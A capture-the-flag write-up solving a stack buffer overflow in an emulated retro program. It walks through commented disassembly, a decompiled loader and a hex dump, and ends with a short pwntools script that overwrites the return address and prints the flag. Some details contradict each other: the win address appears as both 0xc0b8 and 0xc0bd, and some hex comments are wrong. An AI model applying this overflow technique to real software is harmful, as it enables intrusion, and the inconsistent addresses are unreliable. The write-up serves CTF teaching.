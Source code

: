 # Stack Up

|||
|-|-|
|  **CTF**  |  [1337UP LIVE CTF 2023](https://ctf.intigriti.io/) [(CTFtime)](https://ctftime.org/event/2134)  |
|  **Author** |  0xM4hm0ud & DavidP |
|  **Category** |  Pwn |
|  **Solves** |  3  |
|  **Difficulty** |  Easy |
| **Files** |  [stackup.zip](<stackup.zip>)  |

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/a356f778-24d1-4fc7-a895-7891482236d3)

# Solution

We are provided with two files. This chall is similar to the `Impossible Mission` challenge, but now its an pwn challenge. One binary and one file with data in it. If we use `strings` on file `program.prg` we get some strings, like the REDACTED flag:

```bash
$ strings program.prg
INTIGRITI{REDACTED_REDACTED}
Welcome! Something here...
Bye bye!
Hello
```

Lets disassemble it with our disassembler that we created in the reversing challenge. Here the output(With some comments of my own):

```bash
; Set keyboard as active input channel
004c LDX 3
004e JSR ffc9

; Start of the program. 
0051 LDA 20
0053 STA fb
0055 LDA c0
0057 STA fc
0059 JSR c0c9       ; Jumps to the print function
005c JSR c06d       ; Jumps to the function that takes our input
005f LDA 3c         ; Loads bye bye message
0061 STA fb
0063 LDA c0
0065 STA fc
0067 JSR c0c9       ; Jumps to the print function
006a RTS            ; Exits

; Take our input and does some checks
006b some var
006c some var
006d CLC
006e TSX
006f STX c06b       ; Stores the SP at some memory
0072 TXA
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX
0076 DEX
0077 TXS
0078 STA fd
007a LDA 1
007c STA fe
007e LDY 0
0080 LDA 0
0082 STA c06c
0085 JSR ffcf       ; This will take our input
0088 PHA
0089 LDA c06c       ; Loads our input length in the accumulator
008c CMP 64         ; Compares our input length in the accumulator with 0x64/100. 100 is Maxsize. OVERFLOW is here because we can input more characters than the buffer can take(50)
008e PLA
008f BEQ 11
0091 STA (fd), y
0093 INY
0094 INC c06c       ; Increments our input length
0097 CMP d          ; d is 0x13(carriage return) so checks if user clicks on enter
0099 BEQ 7
009b CMP a          ; a is 0x10(newline) so checks if user clicks on enter
009d BEQ 3
009f JMP c085
00a2 LDA 45
00a4 STA fb         ; Loads Hello message
00a6 LDA c0
00a8 STA fc
00aa JSR c0c9       ; Jumps to the print function
00ad LDA fd         ; Loads our input 
00af STA fb
00b1 LDA fe
00b3 STA fc
00b5 JSR c0c9       ; Jumps to the print function
00b8 LDX c06b       ; Grabs the SP and puts in the X register 
00bb TXS
00bc RTS

; Win function
00bd LDA 3          ; Loads the flag
00bf STA fb
00c1 LDA c0
00c3 STA fc
00c5 JSR c0c9       ; Jumps to the print function
00c8 RTS

; Print function
00c9 LDY ff
00cb INY
00cc LDA (fb), y
00ce JSR ffd2
00d1 BNE f8
00d3 RTS
```

So from here we can see that we have an buffer overflow vulnerability and that there is a win function.
We know 50 is the length so everything above 50 will be overflow. Our padding will be 51 because the buffer is 50 and SP points after the return address.
We can also see it in the disassembled output:

```bash
006e TSX            ; Puts SP in X register
006f STX c06b       ; Stores the SP at some memory
0072 TXA            ; Puts value at X register in accumulator
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX            ; Puts accumulator back in X register 
0076 DEX            ; Decrements X by 1
0077 TXS            ; Puts the value in the X register in the SP register
```

How do we know where we need to return?
When we decompile the binary with ghidra for example, we can find the init function:

```c
bool load_program(void *param_1,size_t param_2)
{
  if ((long)param_2 < 0x1001) {
    memcpy(&DAT_00114908,param_1,param_2);
    FUN_0010269e(0xffff);
    DAT_00108900 = 0xc000;          // program is loaded to 0xC000
  }
  return (long)param_2 < 0x1001;
}
```

We can see here that the base address is 0xc000. In the disassembled output from before we can see some addresses like `c0c4`, `c081`. Those are all addresses in the program. So to get the win address we can see in the disassembled output that the win starts at `00b8`:

```bash
; Win function
00b8 LDA 3 ; Loads the flag
00ba STA fb
00bc LDA c0
00be STA fc
00c0 JSR c0c4 ; Jumps to the print function
00c3 RTS
```

So the address is `0xc0b8`. We see that it loads the flag at offset 3. So lets see if the flag is there:

```bash
                 ,------- flag value --------------------.
                 v                                        v
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 4c c0 49 4e 54 49 47 ┊ 52 49 54 49 7b 52 45 44 │LL×INTIG┊RITI{RED│
│00000010│ 41 43 54 45 44 5f 52 45 ┊ 44 41 43 54 45 44 7d 00 │ACTED_RE┊DACTED}0│
│00000020│ 57 65 6c 63 6f 6d 65 21 ┊ 20 53 6f 6d 65 74 68 69 │Welcome!┊ Somethi│
│00000030│ 6e 67 20 68 65 72 65 2e ┊ 2e 2e 0a 00 42 79 65 20 │ng here.┊.._0Bye │
│00000040│ 62 79 65 21 00 48 65 6c ┊ 6c 6f 20 00 a2 03 20 c9 │bye!0Hel┊lo 0×• ×│
│00000050│ ff a9 20 85 fb a9 c0 85 ┊ fc 20 c9 c0 20 6d c0 a9 │×× ×××××┊× ×× m××│
│00000060│ 3c 85 fb a9 c0 85 fc 20 ┊ c9 c0 60 00 00 18 ba 8e │<×××××× ┊××`00•××│
│00000070│ 6b c0 8a e9 32 aa ca 9a ┊ 85 fd a9 01 85 fe a0 00 │k×××2×××┊×××•×××0│
│00000080│ a9 00 8d 6c c0 20 cf ff ┊ 48 ad 6c c0 c9 64 68 f0 │×0×l× ××┊H×l××dh×│
│00000090│ 11 91 fd c8 ee 6c c0 c9 ┊ 0d f0 07 c9 0a f0 03 4c │•××××l××┊_×•×_×•L│
│000000a0│ 85 c0 a9 45 85 fb a9 c0 ┊ 85 fc 20 c9 c0 a5 fd 85 │×××E××××┊×× ×××××│
│000000b0│ fb a5 fe 85 fc 20 c9 c0 ┊ ae 6b c0 9a 60 a9 03 85 │××××× ××┊×k××`×•×│
│000000c0│ fb a9 c0 85 fc 20 c9 c0 ┊ 60 a0 ff c8 b1 fb 20 d2 │××××× ××┊`××××× ×│
│000000d0│ ff d0 f8 60             ┊                         │×××`    ┊        │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

It indeed starts at that offset.

So if we put everything in a script we get:
> solve.py
```python
from pwn import *

p = process(["runtime", "program.prg"])
p.sendline(b"a"*51 + b"\xbd\xc0")
print(p.readall())
```

Running this on remote will give us the flag.

Flag `INTIGRITI{d0_s0m3_r3tr0_pwn}`
